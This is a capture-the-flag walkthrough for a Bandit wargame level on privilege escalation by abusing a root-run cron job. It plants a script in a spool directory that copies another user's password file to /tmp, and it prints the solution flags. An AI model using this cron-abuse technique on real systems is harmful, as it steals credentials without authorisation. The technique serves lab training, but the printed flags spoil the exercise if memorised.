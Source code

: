 ## Introduction

Welcome back, in this level we will learn some basics of privilege escalation by abusing cron jobs.

### Previous flag

```
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

### Checking Cron files

Let´s start checking cron jobs for the user `bandit24`. 

```bash
cat /etc/cron.d/cronjob_bandit24
```

The entries within this file reveal the location of a script in the /usr/bin folder.

### Reading Cron Script

Let’s open the .sh script file and check its contents:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

The contents of this file show us that the cron job iterates over the files in the `/var/spool/bandit24/foo` folder and executes files owned by us, `bandit23`

```jsx
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let’s write a bash command that copies the password from `bandit24` to a temporary location

```bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password.txt
```

### Abusing the Cron Job

Create a directory and script to intercept the password:

```bash
mkdir /tmp/bandit23
nano /var/spool/bandit24/foo/script.sh
```

Within the newly created script, inscribe the command we defined before:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password.txt
```

Grant execution permissions to the script:

```bash
chmod +x /var/spool/bandit24/foo/script.sh
```

Now, the exploit is set. After the cron job is executed, we can read the password for the next level:

```bash
cat /tmp/bandit23/password.txt
```

Flag:

```
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
